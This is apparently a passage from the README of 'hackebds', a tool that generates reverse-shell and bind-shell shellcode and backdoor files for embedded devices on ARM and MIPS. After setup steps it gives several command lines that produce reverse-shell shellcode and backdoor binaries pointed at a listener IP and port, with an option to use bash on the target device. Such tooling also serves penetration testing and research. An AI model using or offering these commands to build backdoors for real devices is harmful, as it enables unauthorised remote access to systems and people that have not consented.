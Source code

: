 （If you want this tool to run on a MacOS system, you need to include python/bin in the bashrc environment variable）

```
echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc
```

![image-20221125095653018](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png)


![image-20221121142622451](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png)

#### Instructions for use

![image-20221118202002242](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png)

Please install the corresponding binutils environment before use
expample:

```
Ubuntu（debian）:
  apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
  apt install binutils-arm-linux-gnueabi/hirsute
 MacOS:
 	 https://github.com/Gallopsled/pwntools-binutils
 	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb
```

1. Use the command line to generate the backdoor file name, shellcode, bindshell, etc

   ![image-20221206180431454](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode
   or
   hackebds -lhost 127.0.0.1 -lport 9999 -arch mipsel -res reverse_shellcode
   ```

   ![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   or
   hackebds -lhost 127.0.0.1 -lport 8081 -arch armelv7 -res reverse_shell_file
   ```

   By default, the reverse shell backdoor is created using sh. If bash is required (PS: here, the bash command needs to exist on the target device)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash
   or 
   hackebds -lhost 127.0.0.1 -lport 8081 -arch armelv7 -res reverse_shell_file -shell bash
   ```
